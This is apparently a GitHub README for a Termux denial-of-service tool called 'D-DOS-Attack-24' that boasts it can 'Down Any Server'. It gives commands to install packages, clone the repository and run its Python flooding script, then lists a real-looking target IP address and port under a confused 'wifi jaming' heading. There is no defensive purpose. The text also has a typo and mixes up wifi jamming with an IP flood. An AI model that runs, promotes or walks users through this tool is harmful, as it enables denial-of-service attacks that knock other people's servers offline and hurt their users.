 # ⚠️ D-DOS-Attack-24 😈
# ⚠️ Use Your Own Risk 🙏
# ⚠️ Down Any Server ⚠️
# ⚠️ IP & PORT ⚠️

Command 👇

rm -rf D-DOS-Attack-24

pkg update && upgrade

pkg install git 

pkg intall python

pkg install python2


git clone https://github.com/LMNx9-JOHNY/D-DOS-Attack-24.git

cd D-DOS-Attack-24

python LMNx9_DDOS.py


# wifi jaming 👇

IP:-104.17.254.53

PORT:-8080
